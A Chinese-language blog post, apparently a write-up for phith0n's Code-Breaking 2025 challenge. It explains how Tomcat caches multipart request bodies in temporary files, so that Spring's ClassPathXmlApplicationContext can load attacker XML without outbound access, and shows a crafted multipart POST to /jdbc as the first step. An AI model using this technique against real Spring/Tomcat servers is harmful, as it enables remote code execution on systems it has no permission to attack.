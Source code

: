 ```yaml
---
title: "Tomcat下ClassPathXmlApplicationContext的不出网利用"
onlyTitle: true
date: 2025-4-17 23:09:08
categories:
- java
- other漏洞
tags:
- Tomcat
img: https://typora-202017030217.oss-cn-beijing.aliyuncs.com/%E5%9B%BE%E7%89%87%E7%B4%A0%E6%9D%90/1080P%20A%20%E6%94%B6%E8%97%8F%E9%87%8F%E6%9C%80%E5%A4%9A/1080PA%E5%A3%81%E7%BA%B8148.jpg
---
```




依旧来自p神的Springboot Code-Breaking 2025小挑战https://github.com/phith0n/code-breaking/tree/master/2025

通常spEL可能用到ClassPathXmlApplicationContext去加载外部xml文档，不过这个类是接收一个xml的路径参数，无法直接传XML的文件内容。一般需要写文件，或者出网才能加载xml文档

不过利用中间件的临时文件功能，可以做到不出网加载xml文档

# Tomcat下ClassPathXmlApplicationContext的不出网利用

## Tomcat临时文件

spring boot 项目中，Tomcat 接收到 content-type 为 multipart/form-data 的请求时，需要将接收的文件缓存到临时目录

即使没有上传点，也可以构造一个文件上传的数据包，Tomcat会按照文件上传去处理

```http
POST /jdbc HTTP/1.1
Host: localhost:8080
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: Phpstorm-c886be16=4fe54ddd-bac0-49c8-891f-b23f2d87d891; ajs_anonymous_id=3a831921-66b8-4dec-884b-a812ee4b3458; _ga_13PPZZ7P4Y=GS1.1.1744879212.3.1.1744880220.0.0.0; _ga=GA1.1.335393605.1744707055
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary82BQUgX63J4cIEmr
Content-Length: 141

------WebKitFormBoundary82BQUgX63J4cIEmr
Content-Disposition: form-data; name="key"

[value]
------WebKitFormBoundary82BQUgX63J4cIEmr--

```
